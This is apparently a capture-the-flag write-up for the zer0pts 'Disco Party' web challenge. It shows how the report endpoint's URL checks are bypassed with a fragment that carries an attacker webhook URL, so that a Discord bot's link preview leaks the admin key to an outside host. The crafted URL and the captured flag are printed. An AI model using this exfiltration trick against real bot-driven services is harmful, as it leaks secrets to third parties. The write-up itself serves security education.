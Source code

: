 # DISCO PARTY

## Description

There's maybe nothing spectial in description. 🤔
![Oops](./image/description.jpg)

## 💻 Explore the website

![Oops](./image/home.jpg)

There are 3 buttons here. The first two buttons seem common, so let try the last one.

I am allowed to create an invitation and to report issues about invitation.

![Oops](./image/test_web.gif)

Each invitation has an id.

## 🧑‍💻 Processing:
**web/app.py:** This file contains server code. There are some endpoints:

`/post/<string(length=16):id>`: I can get an invitation through this endpoint by supplying `id` (`len(id) == 16`). Besides, I can supply a `key` and make `is_admin` take value `True` to receive the flag. Maybe my target is `key` value.

`/api/new`: This endpoint creates post. I POST `title`, `content` and server will generate `id` for that post. Posts will be saved in database (`id`, `title`, `content`).

`api/delete`: Deletes a post if I had `id` and `key`.

`/api/report`: This endpoint takes my reports (`url`, `reason`, `g-recaptcha-response`). There are a lot of check stages here. After all, `message` will be saved in database. Look at the message form: 
```py 
message = f"URL: {url}?key={key}\nReason: {reason}"
```

Because there is bot directory, maybe I need to bypass check stages and make message contain my webhook like:
```py
f'URL: http://hjvnswkt.requestrepo.com?key={key}\nReason: something'
```
Or some messages similar. And the bot will click on the URL/send request and the key will be revealed. (In an ideal scenario) 🤤 

Let's check it out.

**bot/crawler.py:** 🤖

This bot is in a secret channel and will send/chat my message which is from `/api/report` endpoint.

There is no click here 😿.

I was stuck here for a very long time. 

Then I realized every big platforms like Discord have their own bots, and they click every URL in the conversation automatically. 

*Really? I don't believe, prove it.* 🤔

Setup a webhook:
![Oops](./image/setup_requestrepo.jpg)

Send a message with the webhook:
![Oops](./image/chat_url.jpg)

And receive requests:
![Oops](./image/request_discord_bot.jpg)

So, my plan is craft a message that contains `http://hjvnswkt.requestrepo.com/?key={key}` to get `key`.

**Bypass:**

```py
# Check URL
parsed = urllib.parse.urlparse(url.split('?', 1)[0])
if len(parsed.query) != 0:
    return flask.jsonify({"result": "NG", "message": "Query string is not allowed"})
if f'{parsed.scheme}://{parsed.netloc}/' != flask.request.url_root:
    return flask.jsonify({"result": "NG", "message": "Invalid host"})

# Parse path
adapter = app.url_map.bind(flask.request.host)
endpoint, args = adapter.match(parsed.path)
if endpoint != "get_post" or "id" not in args:
    return flask.jsonify({"result": "NG", "message": "Invalid endpoint"})

# Check ID
if not get_redis_conn(DB_TICKET).exists(args["id"]):
    return flask.jsonify({"result": "NG", "message": "Invalid ID"})
```

The first part makes sure my host (input `url`) is equal to server host.

The second part checks path of my URL which have to have `/post/<string(length=16):id>` form and there is `id` in request.

The last part takes `id` undercontrol (exists in database).

I think about a way. I use fragment to craft because none of three parts above do anything with fragment. This is my URL: `http://party.ctf.zer0pts.com:8007/post/UCs0yCK4AJwgyQnX# http://hjvnswkt.requestrepo.com`.

The space after `#` is necessary.
![Oops](./image/space_needed.jpg)

I just send report with that URL. Get key in requestrepo.
![Oops](./image/key.jpg)

And get the flag.
![Oops](./image/flag.jpg)

**🚩Flag: `zer0pts
{4h_p4rad1s3_l05t_6b4f6fbf5ee51003}`**

## 🤓 Notes:
There are some features I can abuse (Discord, Facebook, ... bot).
